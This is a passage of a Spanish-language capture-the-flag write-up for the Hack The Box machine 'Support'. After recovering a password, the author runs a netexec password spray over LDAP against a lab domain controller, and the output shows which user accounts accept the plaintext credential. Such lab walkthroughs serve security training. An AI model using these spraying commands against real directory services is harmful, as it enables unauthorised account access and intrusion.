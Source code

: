 ![](/assets/img/Support/image_8.png)

`Obtenemos` la `contraseña`

![](/assets/img/Support/image_9.png)
## LDAP

`Enumeramos usuarios` válidos de `ldap`

```
# netexec ldap 10.129.178.149 -u users -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-succes
SMB         10.129.178.149  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.178.149  389    DC               [-] support.htb\support:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\guest:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
LDAP        10.129.178.149  389    DC               [+] support.htb\armando:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\administrator:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\raven.clifton:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```